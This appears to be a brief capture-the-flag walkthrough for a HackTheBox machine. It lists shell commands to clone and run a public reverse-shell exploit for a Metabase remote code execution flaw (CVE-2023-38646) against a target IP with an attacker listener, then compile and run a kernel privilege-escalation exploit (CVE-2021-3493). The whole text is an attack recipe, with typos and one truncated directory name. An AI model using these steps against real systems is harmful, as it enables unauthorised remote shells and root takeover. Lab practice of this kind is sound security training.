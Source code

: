 # Analytics-htb-Rce
#first clone the repository
git clone https://github.com/securezeron/CVE-2023-38646
cd CVE-2023-38646
pip install -r requirements.txt
python3 CVE-2023-38646-Reverse-Shell.py -h
#the before run reverse shell start netact listeiner and  go back to run script as follows
python3 CVE-2023-38646-Reverse-Shell.py --rhost {Target Ip address} --lhost {your ip-adress} --lport {port to listen rervse shell} 

# Privileges escalation
git clone https://github.com/briskets/CVE-2021-3493.git
cd CVE-2021-349
Usage
    gcc exploit.c -o exploit
#The uplaod  the file
    ./exploit
